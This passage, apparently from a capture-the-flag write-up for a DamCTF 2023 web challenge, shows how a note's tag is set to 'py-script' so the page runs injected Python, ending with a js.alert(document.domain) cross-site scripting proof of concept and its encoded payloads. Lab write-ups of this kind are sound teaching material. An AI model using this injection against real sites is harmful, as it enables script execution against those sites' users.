 Hmm! There's another `script` we can take advantage of!

***You guessed! `py-script`!***

**Now, what if we change the `tag` to `py-script`??**
```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|16:46:30(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"test prompt","answer":"test answer","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ABCADNdAC2ewEcDz40ozKl1G8HkuqYEVXp/fqrqSKgjoURem6G3dq12ZoChc94EqR0FEqvHJHupAAAA1AswOjfmCFYAAU9Dy/ayuB+2830BAAAAAARZWg==
After decoded: [{'prompt': 'test prompt', 'answer': 'test answer', 'tag': 'py-script'}]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DamCTF-2023/images/Pasted%20image%2020230408164820.png)

Oh! We got a `SyntaxError`!!

**Which means we can execute Python code!**
```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|16:47:48(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"print(1+1)","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ABAADhdAC2ewEcDz40ozKl1G/3hGL/iB3KJyodN5MOl49OPAcw22Fx3Jn+rJO+NVYAEZn4WYPkXJKMw7WQAAMmgaOFLj01TAAFUQX1civ8ftvN9AQAAAAAEWVo=
After decoded: [{'prompt': 'print(1+1)', 'answer': 'print(2+2)', 'tag': 'py-script'}]
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DamCTF-2023/images/Pasted%20image%2020230408164951.png)

Nice!!!

**Can we execute JavaScript code??**

**After some trial and error, we can import the `js` library and execute JavaScript code!!**
```py
    notes = '''[{\"prompt\":\"import js;print(js.alert(document.domain))\",\"answer\":\"print(2+2)\",\"tag\":\"py-script\"}]'''
```

**The reason I pick the `js` library is I saw that library executing JavaScript code in `index.html`:**
```html
<py-script id="python">
import js
    [...]
        js.createNoteElement(note['prompt'], note['answer'], note['tag'])
</py-script>
```

```shell
┌[siunam♥earth]-(~/ctf/DamCTF-2023/web/url-stored-notes)-[2023.04.08|17:12:32(HKT)]
└> python3 encode_notes.py
Before encoded: [{"prompt":"import js;print(js.alert(document.domain))","answer":"print(2+2)","tag":"py-script"}]
After encoded: /Td6WFoAAATm1rRGAgAhARYAAAB0L+Wj4ABgAFhdAC2ewEcDz40ozKl1G8Hi7NGQkjZaYHM2dmMBzBphloFBW+N1QbCCK6FSx07eGLl5DJ/gWJK17vQsRy+t556giyKCwChZU/DRBVebTHpT+3PulRjt0mh8lgAAk8cicCjHaVIAAXRhF1hgUR+2830BAAAAAARZWg==
After decoded: [{'prompt': 'import js;print(js.alert(document.domain))', 'answer': 'print(2+2)', 'tag': 'py-script'}]
```
